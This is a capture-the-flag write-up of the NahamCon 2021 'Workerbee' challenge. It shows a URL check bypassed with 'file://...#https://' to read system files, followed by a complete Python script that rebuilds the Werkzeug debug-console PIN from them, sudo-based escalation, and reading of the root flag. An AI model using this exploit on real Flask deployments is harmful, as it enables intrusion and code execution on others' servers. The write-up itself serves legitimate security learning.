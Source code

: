 # Workerbee (NahamCon 2021)



### The Application

The Workerbee app is pretty simple on the surface. Enter a secure URL and it gets back content for you.

<img src="app.png" alt="the app" style="zoom:50%;" />

If you get https://github.com for example, it will print out its HTML content.

<img src="app1.png" alt="the app" style="zoom:50%;" />



### First Attack Attempt

My initial thought was to try and break the rendering and see if I could get anywhere using [SSTI](https://portswigger.net/research/server-side-template-injection). I tried using a payload that would work on several different templating systems so I could try and figure out which one it was and from there but that failed.



### Found by chance

After a while of tinkering around with the website I noticed a link to `/workerbee` that I hadn't visited so I went to it and saw this. 

<img src="error1.png" alt="error page" style="zoom: 67%;" />

Now we know it's a Flask app running on python3.8 and if you look closely on the right hand side there is a console icon that will open a python console for you to debug the application!

<img src="error2.png" alt="error page console" style="zoom: 67%;" />

### Fighting for the console

I excitedly clicked on the console but a popup asking for a PIN appeared on the screen

 <img src="console1.png" alt="error page console" style="zoom: 67%;" />

I tried several ways of going around it using javascript which would allow me to remove the popup and get to the console but every command would come back with a 500 response because the server knew I was not authenticated.

After some research I found out this is a Werkzeug console which according to their own documentation was never to be used in a production environment as it could be vulnerable to attacks. There are only a few pieces of information needed to generate this PIN and we can only get them from the victim machine. (Big shoutout to the people at [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug) for the info and big part of the script).

This new information means that we need to go back and figure out a way to get information on the machine.

After a lot of back and forth (and maybe some hints from the author) I found out that the requirement for `https://` was just a check for that string as a substring of the input but it didn't have to be at the beginning. This meant that `http://url.com#https:// ` was also seen as a valid *secure* URL by the application.

The real fun starts when I realized that just like we can use http instead of https we can also use the file protocol.



### Fishing for info

Now that we know we can use `file://` to get files from the machine we are going to need to find a few pieces of information to generate the same PIN and get to execute python on the victim machine.

These are the files that we'll need to read.

- `/proc/sys/kernel/random/boot_id` (Part of the 'machine id')
- `/proc/self/cgroup` (Part of the 'machine id')
- `/sys/class/net/eth0/address` (MAC address)

Because this was a CTF the instance would often run out of time as I was deep into research or testing and would forget to extend the time. And since this information may very well change from container to container, I scripted the attack on using the following python script.



```python
from bs4 import BeautifulSoup
import requests
import argparse
import hashlib
from itertools import chain

# Argparse
parser = argparse.ArgumentParser()
parser.add_argument("url", help="Workerbee victim url")
parser.add_argument("-v", "--verbose", help="increase output verbosity",
                    action="store_true")
args = parser.parse_args()

# Actual args
url = args.url

def _log(text):
    if args.verbose:
        print(text)

# get specific file from victim machine
def get_file_from_victim(filepath):
    _log("Getting file => " + filepath)
    page = requests.get(url, params = {
        'destination': 'file://' + filepath + '#https://'
    }) 
    soup = BeautifulSoup(page.content, 'html.parser')
    return soup.find('pre').get_text()

def get_machine_id():
    machine_id = ''

    boot_id = get_file_from_victim('/proc/sys/kernel/random/boot_id')
    machine_id += boot_id.strip()
    _log('Got boot_id of => {}'.format(machine_id))

    cgroup = get_file_from_victim('/proc/self/cgroup')
    cgroup_id = cgroup.splitlines()[0].strip().rpartition("/")[2]
    machine_id += cgroup_id
    _log("Got cgroup id of => {}".format(cgroup_id))

    _log("Complete machine_id => {}".format(machine_id))
    return machine_id

# Gets mac address as an integer (but in a string xD)
def get_mac_address():
    mac = get_file_from_victim('/sys/class/net/eth0/address')
    mac_int = int(mac.replace(':', ''), 16)
    mac_str = str(mac_int)
    _log('Got MAC in decimal as => {}'.format(mac_str)) 
    return mac_str

def generate_pin(probably_public_bits, private_bits):
    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print("This is the generated PIN")
    print(rv)

# file:///usr/local/lib/python3.8/dist-packages/werkzeug/__internal.py#https:// <-- Info to reverse this pin generation

probably_public_bits = [
    'workerbee',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    get_mac_address(),
    get_machine_id(),
]

generate_pin(probably_public_bits, private_bits)
```



And that's how I got the PIN working!

![script result](script1.png)



### Light at the end of the tunnel

After successfully entering the PIN and getting access to the python debug console I'll admit I spent way too much time looking for complicated privilege escalation vectors as I had had a hard time with the challenge so I thought this would be hard as well.

Ultimately after a while I noticed I had read access to the `/etc/sudoers` file and I took a look at it and there it was.

```
workerbee 	ALL=(root) NOPASSWD:ALL
```

Then it was as simple as `sudo cat /root/flag.txt`

![](success.png)

### Thanks

A big shoutout to all the people at NahamCon 2021 and especially to John Hammond who authored this challenge.